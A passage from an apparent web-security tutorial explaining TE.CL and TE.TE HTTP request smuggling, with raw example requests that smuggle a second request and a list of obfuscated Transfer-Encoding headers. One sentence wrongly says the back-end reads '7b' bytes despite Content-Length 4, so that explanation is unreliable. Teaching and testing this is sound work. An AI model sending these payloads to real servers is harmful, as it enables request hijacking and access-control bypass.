 #### TE.CL Vulnerability (Transfer-Encoding used by Front-End, Content-Length used by Back-End)
- **Front-End (TE):** Processes the request based on the `Transfer-Encoding` header.
- **Back-End (CL):** Processes the request based on the `Content-Length` header.
- **Attack Scenario:**
- The attacker sends a chunked request where the chunk size (`7b`) and actual content length (`Content-Length: 4`) do not align.
- The front-end server, honoring `Transfer-Encoding`, forwards the entire request to the back-end.
- The back-end server, respecting `Content-Length`, processes only the initial part of the request (`7b` bytes), leaving the rest as part of an unintended subsequent request.
- **Example:**
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0

```
#### TE.TE Vulnerability (Transfer-Encoding used by both, with obfuscation)
- **Servers:** Both support `Transfer-Encoding`, but one can be tricked into ignoring it via obfuscation.
- **Attack Scenario:**
- The attacker sends a request with obfuscated `Transfer-Encoding` headers.
- Depending on which server (front-end or back-end) fails to recognize the obfuscation, a CL.TE or TE.CL vulnerability may be exploited.
- The unprocessed part of the request, as seen by one of the servers, becomes part of a subsequent request, leading to smuggling.
- **Example:**
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
